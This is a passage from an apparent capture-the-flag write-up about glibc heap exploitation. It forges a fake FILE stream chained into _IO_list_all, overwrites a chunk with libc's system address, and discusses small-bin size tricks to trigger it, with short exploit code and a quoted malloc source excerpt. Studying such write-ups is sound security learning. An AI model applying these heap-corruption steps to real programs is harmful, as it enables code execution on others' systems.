 ```python
edit(chunk_C3, payload)

edit(chunk_E, p64(libc.sym['system']) + p64(heap + 0x178))

malloc()
```

**My configure struct**


![image](https://hackmd.io/_uploads/rk_sIMxH0.png)


![image](https://hackmd.io/_uploads/BJfnIzeS0.png)


![image](https://hackmd.io/_uploads/H1KnIzeB0.png)


**However, there will be a mistake when I do it. Notice that triggers can happen when sorting this fake chunk, not allocating it (the program will not abort and the location of this will not reside in 0x60 bk small bin)**

![image](https://hackmd.io/_uploads/BkIZ8fgSC.png)

- IO_list_all

![image](https://hackmd.io/_uploads/BkYm8flHR.png)

- IO_list_all.file._chain


***I set up fake file stream successfully; however, I need to trigger to move it into _IO_list_all***

##### Trigger size

![image](https://hackmd.io/_uploads/rkC6Pzer0.png)

***Method 1***
_IO_list_all -> _chain: 0x60 bk small bin -> _chain: 0xb0 small bin

***Set size chunk C to 0xb1***

***Method 2***


```cpp=
          /* Take now instead of binning if exact fit */

          if (size == nb)
            {
              set_inuse_bit_at_offset (victim, size);
              if (av != &main_arena)
                victim->size |= NON_MAIN_ARENA;
              check_malloced_chunk (av, victim, nb);
              void *p = chunk2mem (victim);
              alloc_perturb (p, bytes);
              return p;
            }

          /* place chunk in bin */
```
